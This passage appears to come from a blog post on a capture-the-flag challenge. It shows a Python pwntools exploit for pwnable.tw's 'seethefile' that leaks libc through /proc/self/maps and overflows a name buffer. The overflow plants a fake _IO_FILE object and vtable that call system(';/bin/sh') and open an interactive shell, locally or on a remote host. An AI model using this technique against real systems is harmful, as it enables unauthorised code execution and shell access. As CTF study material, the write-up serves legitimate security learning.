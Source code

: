     return r.recvuntil("choice :")

def exit(name):
    r.sendline("5")
    r.recvuntil("name :")
    r.sendline(name)

def exploit(r):
    r.recvuntil(" :")
    openfile("/proc/self/maps")
    readfile()
    readfile() # leak libc
    procmap = writescreen()
    libc_base = int("0x"+procmap.split("\n")[1].split("-")[0],16)
    system = libc_base+0x3a940
    log.success("libc_base found at: "+hex(libc_base))
    log.success("system@libc found at: "+hex(system))
    
    ## OVERWRITE FP
    name  = ""
    name += "A"*4*8
    name += p32(0x804b290) # fp
    name += "B"*4*3

    ## FAKE _IO_FILE_plus OBJECT STARTS HERE
    name += "\xff"*4      # 0x804b290+0x0
    name += ";/bin/sh\00"
    name += "\xff"*(0x48-9)
    name += p32(0x804b290+0x50) # vptr
    ## FAKE VTABLE STARTS HERE
    name += "A"*8         # +0x50
    name += p32(system) # EIP
    name += "C"*50

    exit(name)
    
    #pause()
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/seethefile/seethefile'], env={"LD_PRELOAD":"./libc_32.so.6"})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}
